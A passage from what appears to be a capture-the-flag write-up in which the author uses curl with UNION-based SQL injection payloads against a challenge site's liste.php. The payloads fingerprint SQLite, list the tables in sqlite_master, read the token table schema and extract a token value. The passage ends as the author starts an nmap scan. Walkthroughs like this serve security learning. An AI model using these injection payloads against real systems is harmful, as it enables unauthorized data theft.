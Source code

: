 

```python
!curl "http://82.195.79.41/liste.php?id=NULL'%20UNION%20ALL%20SELECT%20'a'||'b','k';--#" 2> /dev/null | grep "contentliquid"
```

    <div id="contentliquid"><div id="content"><ul><li><a href="/liste.php?id=ab">k</a><ul></div></div>


Well `'a'||'b'` seemed to work. That syntax is *Oracle* specific. But also *SQLite* specific. And this was my biggest mistake: I was searching for Oracle specific injections, but the DBMS was in fact SQLite. Finally I've constructed this query:


```python
!curl "http://82.195.79.41/liste.php?id=NULL'%20UNION%20ALL%20SELECT%20'a',name%20FROM%20sqlite_master;--#" 2> /dev/null | grep "contentliquid"
```

    <div id="contentliquid"><div id="content"><ul><li><a href="/liste.php?id=a">token</a><li><a href="/liste.php?id=a">public</a><ul></div></div>


So there are 2 tables available:
    
* token
* public

Let's have a look at the schema of `token`:


```python
!curl "http://82.195.79.41/liste.php?id=NULL'%20UNION%20ALL%20SELECT%20'a',sql%20FROM%20sqlite_master%20WHERE%20name='token';--#" 2> /dev/null | grep "contentliquid"
```

    <div id="contentliquid"><div id="content"><ul><li><a href="/liste.php?id=a">CREATE TABLE token (token_val NUMERIC)</a><ul></div></div>


Ok, now go for it:


```python
!curl "http://82.195.79.41/liste.php?id=NULL'%20UNION%20ALL%20SELECT%20'a',token_val%20FROM%20token;--#" 2> /dev/null | grep "contentliquid"
```

    <div id="contentliquid"><div id="content"><ul><li><a href="/liste.php?id=a">336809</a><ul></div></div>


Token **336809** is the next one. 

## 6th and last Token

While looking for tokens, I have seen this message a couple of times:
    
![hackertag](http://dl.dornea.nu/img/2015/hackertag/08e649ee3231f07d05c42df5c11de2ab.png)

The realm says: **80 is just a number of 65535**. Ok hat was a hint for more undetected ports. I've run *nmap* again:
